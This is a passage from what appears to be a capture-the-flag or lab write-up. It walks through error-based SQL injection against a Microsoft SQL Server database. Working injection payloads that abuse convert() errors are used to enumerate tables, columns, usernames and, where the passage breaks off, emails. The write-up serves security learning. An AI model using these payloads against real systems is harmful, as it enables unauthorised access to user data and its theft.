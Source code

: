 ```
Conversion failed when converting the nvarchar value 'users' to data type int.
```

Let's see if there are any more tables, by running the same query, but with an appending command that says look for tables that are not `users` to see if there is anything else:

```
',convert(int,(select top 1 table_name from information_schema.tables where table_name not in ('users'))))--
```

We get no response, so the `users` table is probably the only table in the database. From my understanding, generally the `users` table is pretty standard in its layout, but let's enumerate the column names just for practice.

This time, the command tries to convert a column name, and the error will be the column name.

```
',convert(int,(select top 1 column_name from information_schema.columns where table_name='users')))--
```
 
Running this command as previously with the `not in` function gives us the following columns: (I used a python script to generate the injections, as I got a bit lazy copy pasting. It is found in my tools/misc folder).

```
user_id
username
email
```

Now let's try to get the usernames from the table with the exact same method, but this time targetting the actual rows of the table:

```
', convert(int,(select top 1 username from users)))--
```

We again run it, specifying the `not in` usernames that we already read, until we get no response. Our final script:

```
', convert(int,(select top 1 username from users where username not in ('eric','alice','pedro','admin'))))--
```

Now we know the users:

```
eric
alice
pedro
admin
```

Let's work on getting their emails now, with the same method and this command:

```
', convert(int,(select top 1 email from users)))--
```
